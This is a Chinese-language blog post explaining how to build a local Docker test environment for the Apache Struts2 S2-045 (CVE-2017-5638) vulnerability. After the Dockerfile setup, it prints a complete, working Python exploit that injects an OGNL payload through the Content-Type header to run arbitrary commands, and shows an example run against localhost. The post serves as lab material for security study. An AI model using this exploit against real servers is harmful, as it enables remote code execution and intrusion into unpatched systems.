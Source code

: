 ```yaml
---
layout: post
title: 如何使用Docker构建S2-045漏洞环境
categories: [Configuration]
tags: [Docker,Vulnerability-environment]
description: "S2又出高危了，想搞事又怕被水表怎么办？不如自己构建一个真实的漏洞环境，在本地过过瘾。这篇博客以最新的 S2-045 为例，记录如何使用Docker快速进行漏洞测试环境的构建。"
fullview: false
comments: true
---
```

# 准备工作

## 关于 Docker

首先你需要一个Docker环境，关于Docker感兴趣的同学可以阅读[《Docker—入门到实践》](https://yeasy.gitbooks.io/docker_practice/content/)。

关于如何安装Docker请看[安装 Docker](https://yeasy.gitbooks.io/docker_practice/content/install/)。

## 关于 Dockerfile

>如果我们可以把每一层修改、安装、构建、操作的命令都写入一个脚本，用这个脚本来构建、定制镜像，那么之前提及的无法重复的问题、镜像构建透明性的问题、体积的问题就都会解决。这个脚本就是 Dockerfile。

本次重点内容就是如何创建一个 Dockerfile 并构建一个 Docker 镜像。

关于 Dockerfile 请看[使用 Dockerfile 定制镜像](https://yeasy.gitbooks.io/docker_practice/content/image/build.html)

## 关于S2-045的测试环境

我们需要一个 S2-045 的测试环境，这里可以使用[ mottoin ](http://www.mottoin.com/)提供的[测试环境](https://github.com/mottoin/S2-045)。

也可以下载[ struts2-blank ](https://mvnrepository.com/artifact/org.apache.struts/struts2-blank) 进行测试，但是需要手动修改<code> struts.xml </code>，开启动态方法调用。

    <constant name="struts.enable.DynamicMethodInvocation" value="true"/>

# 创建一个 Dockerfile 文件

首先我们要创建一个文件夹来放测试环境以及 Dockerfile 。

    mkdir S2-045

在文件夹内放入下载好的测试环境，然后创建一个 Dockerfile 。

    cp your-download-path/S2-045.war ./S2-045
    vi ./S2-045/Dockerfile

将下列语句写入 Dockerfile ，保存并退出。

    FROM tomcat:8.0-jre8
    MAINTAINER mengbulang@live.com

    WORKDIR /tmp

    RUN rm -rf /usr/local/tomcat/webapps/ \
    && chmod a+x /usr/local/tomcat/bin/*.sh

    COPY S2-045.war /usr/local/tomcat/webapps/ROOT.war
    
    EXPOSE 8080

    CMD ["/usr/local/tomcat/bin/catalina.sh", "run"]

当前的目录结构如下:

    └── S2-045
        ├── Dockerfile
        └── S2-045.war

# 构建 Dockerfile

运行命令:

    docker build -t s2-045 S2-045

docker 就会根据之前的 Dockerfile 进行自动构建。

![build](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-build.png)

查看所有的镜像

    docker images -a

可以看到 s2-045 已经静静的躺在列表里面了。

![images-all](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-images-all.png)

# 运行 s2-045 镜像

运行:

    docker run -d -p 80:8080 s2-045

查看当前运行镜像状态:

    docker stats

![stats](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-stats.png)

访问搭建好的环境:

    http://127.0.0.1/index.action

![index](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-index.png)

测试漏洞的脚本实在msf里面找的，相比其他公布出来的测试脚本更稳定：

    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    import urllib2
    import httplib


    def exploit(url, cmd):
        payload = "%{(#_='multipart/form-data')."
        payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        payload += "(#_memberAccess?"
        payload += "(#_memberAccess=#dm):"
        payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
        payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
        payload += "(#ognlUtil.getExcludedPackageNames().clear())."
        payload += "(#ognlUtil.getExcludedClasses().clear())."
        payload += "(#context.setMemberAccess(#dm))))."
        payload += "(#cmd='%s')." % cmd
        payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
        payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
        payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
        payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
        payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
        payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
        payload += "(#ros.flush())}"

        try:
            headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
            request = urllib2.Request(url, headers=headers)
            page = urllib2.urlopen(request).read()
        except httplib.IncompleteRead, e:
            page = e.partial

        print(page)
        return page

    if __name__ == '__main__':
        import sys
        if len(sys.argv) != 3:
            print("[*] struts2_S2-045.py <url> <cmd>")
        else:
            print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
            url = sys.argv[1]
            cmd = sys.argv[2]
            print("[*] cmd: %s\n" % cmd)
            exploit(url, cmd)

使用方法如下:

    python poc.py http://127.0.0.1/index.action "cd / && ls -al"

![result](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-result.png)

# 参考

[快速搭建各种漏洞环境](https://github.com/Medicean/VulApps)

[S2-045 原理初步分析](http://paper.seebug.org/241/)
